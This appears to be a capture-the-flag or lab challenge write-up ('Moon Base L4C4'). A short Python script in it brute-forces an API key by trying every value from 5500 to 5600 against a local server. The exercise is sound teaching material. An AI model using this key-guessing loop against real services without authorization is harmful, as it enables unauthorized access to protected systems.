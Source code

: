 ### Unlocking the Message Moon Base L4C4

#### Challenge: 
Alien Signal API listening on http://127.0.0.1:8082. Use HTTP GET with x-api-key header to get signal. We have narrowed down the key to be in the range of 5500 to 5600. Note: The script can timeout. If this occurs try narrowing down your search

```python
import urllib.request
import urllib.parse

url = "http://127.0.0.1:8082"
header = {}

for i in range (5500, 5601):
  header = {'x-api-key' : str(i)}
  request = urllib.request.Request(url, headers = header)
  response = urllib.request.urlopen(request)
  print(response.read())
```
